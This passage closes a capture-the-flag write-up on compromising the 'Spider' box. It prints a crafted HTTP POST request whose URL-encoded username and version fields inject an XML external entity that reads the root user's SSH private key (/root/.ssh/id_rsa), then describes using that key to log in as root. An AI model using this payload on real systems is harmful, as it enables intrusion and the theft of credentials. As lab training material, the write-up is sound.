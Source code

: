 ```http
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJwb2ludHMiOjB9.YYBeAw.tCyjLgslZtrS5XjYXhIlNpYDgi0
Connection: close

username=%26a%3b&version=1.0.0+-->+<!DOCTYPE+root+[<!ENTITY+a+SYSTEM+'file%3a///root/.ssh/id_rsa'>]>+<!--
--------------------------------------------------END POST REQ-----------------------------------------------------
**NOTE THAT I URL ENCODED THE VALUES OF USERNAME AND VERSION
```

Doing this gets us this beautiful mess

![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/Spider_9.png?raw=true) 

From here either get the key via Burp's HTTP history or use `inspect elements` by right clicking the page to find the whole text of the key. From here repeat the process of copying the text into a file, changing the file permissions, and then SSHing into root. Spider has been pwned.

## Afterthoughts

I think I was a little rusty with my webapps because this box was insanely difficult for me and I had to get a lot of outside assistance, and in hindsight, this box wasn't extremely difficult. However, it's refreshing to do these kinds of exploits again rather than service exploits via ExploitDB or learning how to exploit one service in particular. This box is definitely challenging but you learn a lot. 

--Dylan Tran 11/1/21
{% endraw %}
